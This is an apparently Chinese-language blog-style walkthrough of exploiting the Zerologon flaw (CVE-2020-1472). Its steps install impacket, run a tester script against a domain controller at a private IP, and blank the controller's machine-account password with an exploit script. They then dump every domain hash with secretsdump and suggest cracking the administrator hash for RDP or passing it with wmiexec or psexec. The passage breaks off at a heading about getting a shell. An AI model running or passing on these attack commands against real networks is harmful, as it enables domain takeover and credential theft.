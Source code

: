 ### 1.1 安装impacket

首先安装`impacket`网络协议工具包。 `impacket`网络协议工具包:
_https://github.com/SecureAuthCorp/impacket_

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810181240.png)

### 1.2 POC测试  

`POC`脚本地址： _https://github.com/SecuraBV/CVE-2020-1472_

`POC`测试目标漏洞是否存在：

  * 

    
    
    python zerologon_tester.py DC 192.168.31.240

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810181246.png)

### 1.3 EXP置空密码

`EXP`脚本地址： _https://github.com/risksense/zerologon_

  * 

    
    
     python set_empty_pw.py DC 192.168.31.240

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810181247.png)

### 1.4 获取域内hash

置空密码后获取目标域内所有`hash`：

  * 

    
    
    python secretsdump.py seep.cc/DC\$@192.168.31.240 -no-pass

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810181248.png)

获取到域控`administrator`的`hash`，可解密得到明文密码后直接RDP，解密失败也可使用`wmiexec`，`psexec`等传递`hash`执行`cmd`。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810181249.png)

域控密码已被置空。

![]()

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810181250.png)

### 1.5 利用hash获取shell
